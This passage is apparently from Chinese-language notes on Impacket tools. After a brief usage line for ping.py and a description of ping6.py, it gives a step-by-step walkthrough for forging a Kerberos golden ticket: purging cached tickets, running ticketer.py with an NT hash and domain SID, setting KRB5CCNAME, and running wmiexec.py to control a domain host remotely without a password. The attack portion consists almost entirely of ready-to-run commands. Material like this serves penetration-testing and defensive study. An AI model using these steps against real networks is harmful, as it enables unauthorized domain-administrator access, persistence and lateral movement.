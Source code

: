   ```bash
  Use: ./ping.py <src ip> <dst ip>
  ```

  

- ping6.py：简单的IPv6 ICMP ping，它使用ICMP echo和echo-reply数据包来检查主机的状态。





## 黄金票据的制作

第一步：打开管理员权限的命令行窗口并清空票据

```bash
klist purge
```

第二步：制作ccache文件

```bash
python ticketer.py -nthash d8d2ad72a119a8d418703f7a16580af6 -domain-sid S-1-5-21-3763276348-88739081-2848684050 -domain test.com administrator
```

第三步：更改环境变量

```bash
set KRB5CCNAME=C:\Users\zhangsan\Desktop\impacket-examples-windows-master\administrator.ccache
```

第四步：验证成果

```bash
python wmiexec.py test.com/administrator@yukong -k -no-pass

```



利用impacket来进行票据的制作有一定的局限性，制作完票据后在klist命令下是看不到缓存的。也没办法使用net use \\ip\admin$ 来建立管道连接。但可以使用其自带的工具在在一定的命令格式下进行远控指定主机。命令格式为：

```bash
xxxx.py domain/username@hostname -k -no-pass

```



参考：https://shanfenglan.blog.csdn.net/article/details/108266378

















